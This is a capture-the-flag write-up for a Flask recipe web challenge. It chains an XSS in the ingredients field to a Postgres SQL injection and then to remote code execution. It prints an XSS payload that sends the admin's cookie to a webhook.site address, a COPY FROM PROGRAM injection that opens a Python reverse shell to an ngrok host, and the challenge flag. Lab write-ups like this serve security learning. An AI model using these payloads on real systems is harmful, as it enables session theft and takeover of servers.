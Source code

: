Judging from the session cookie pattern, it's a Flask application. There is an XSS in the ingredients field, and you can submit your recipe to the admin. 
```
<img src=x onerror=fetch('https://webhook.site/d559bc0f-3038-48d0-8cda-6d7b229a19d4/?c='+btoa(document.cookie))>
```
Login with the admin's cookie and you get an admin panel. There is an SQL injection here. In img 2, the query is expecting type jsonb. You can throw other errors to know it's postgres, then cast your column with `::jsonb` (img3).

I got unintended solution for this, but there is a default config for Postgres 9.3 < 11.2 that allows you to execute commands using `COPY FROM PROGRAM`. I couldn't create my own tables so I used the existing cakes table. (img 4)

Payload to get shel on the box:
```
{"cake_id":"'5555'; COPY cakes FROM PROGRAM 'python3 -c ''import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"0.tcp.ap.ngrok.io\",17769));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")''';-- -"}
```

Intended solution I believe is to enumerate enabled extensions and get RCE using `plpython3u`

This was in the challenge's init_db.sql
```
CREATE EXTENSION IF NOT EXISTS plpython3u;
```

Flag : `brunner{XSS_y0UR_w4y_T0_Pyth0N3_1N_P0sTgR35?!}`

Solved by: benkyou